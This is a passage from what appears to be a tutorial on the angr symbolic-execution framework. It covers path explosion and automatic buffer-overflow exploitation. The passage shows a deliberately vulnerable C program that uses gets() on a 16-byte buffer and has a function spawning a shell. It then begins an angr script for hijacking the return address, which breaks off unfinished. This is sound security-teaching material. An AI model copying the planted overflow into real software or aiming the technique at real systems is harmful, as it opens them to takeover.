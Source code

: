 ![](/images/2-23-22/08_angr_constraint_constant.png)  
The address of the check function is `0x8048580`

> Take away, path explosion can be caused by if conditions in while loop. One solution to solve path explosion is to add constraints, in other words, simplify constraints.

Automatic exploit Buffer Overflow
------
```c
#include<stdio.h>
#include<stdlib.h>

void try_to_call_me(){  system("sh"); }

int main(){
    setvbuf(stdout,0,2,0);
    setvbuf(stdin,0,2,0);
    setvbuf(stderr,0,2,0);

    puts( "Try exploit buffer overflow" );

    char buf[0x10];
    gets( buf );

    return 0;
}
```  
It is easy to find vulnerability of buffer overflow in this program. We can overwrite return address of `main()` with `try_to_call_me()`.
```py
import angr

from angr import sim_options as so

def fully_symbolic(state, variable):
    for i in range(state.arch.bits):
        if not state.solver.symbolic(variable[i]):
            return False
    return True

def main():
    p = angr.Project("./bof", auto_load_libs=False)
    extras = {so.REVERSE_MEMORY_NAME_MAP, so.TRACK_ACTION_HISTORY, so.MEMORY_SYMBOLIC_BYTES_MAP}
    es = p.factory.entry_state(add_options=extras)
    sm = p.factory.simulation_manager(es, save_unconstrained=True)

    call_me = 0x400692

    #print("Try to find vulnerability in bof\n")
    exploitable_state = None
```